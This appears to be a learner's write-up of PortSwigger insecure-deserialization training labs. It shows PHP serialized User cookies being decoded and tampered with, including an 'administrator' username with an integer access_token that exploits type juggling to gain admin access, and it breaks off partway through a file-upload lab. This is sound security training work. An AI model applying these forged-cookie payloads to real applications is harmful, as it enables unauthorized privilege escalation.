[PortSwigger Cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[PortSwigger Labs](https://portswigger.net/web-security/deserialization)

## Insecure deserialization

### Lab 01: Modifying serialized objects
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-objects)




```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d

B64 Decode: O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```







### Lab 02: Modifying serialized data types
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-modifying-serialized-data-types)




```
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ0aHVzYjdoeXIyd28yOTF0bGNkaWJkYmEweWoydzRjbiI7fQ%3d%3d

B64 Decode: 
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
```

I try to put 'administrator' in the cookie

```
RAW: 
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"thusb7hyr2wo291tlcdibdba0yj2w4cn";}
-> Cookie: 
```


i got an error:


So i imagine that there is a php script that compare the $user->access_token vs $access_token[i]. But the server doesn't check type of $user->access_token. 
-> [PHP Type Juggling Vulnerabilities](https://medium.com/swlh/php-type-juggling-vulnerabilities-3e28c4ed5c09)

I replace the token string in the cookie with an interger.

```
RAW:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
Cookie: Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9Cg%3D%3D
```
I have admin access.




### Lab 03: Using application functionality to exploit insecure deserialization 
[Link](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-using-application-functionality-to-exploit-insecure-deserialization)



There is an upload file functionality.
I try to upload a php file and i face an error


It seems that i can upload a php file replace the existing /home/carlos/avatar_upload.php file.



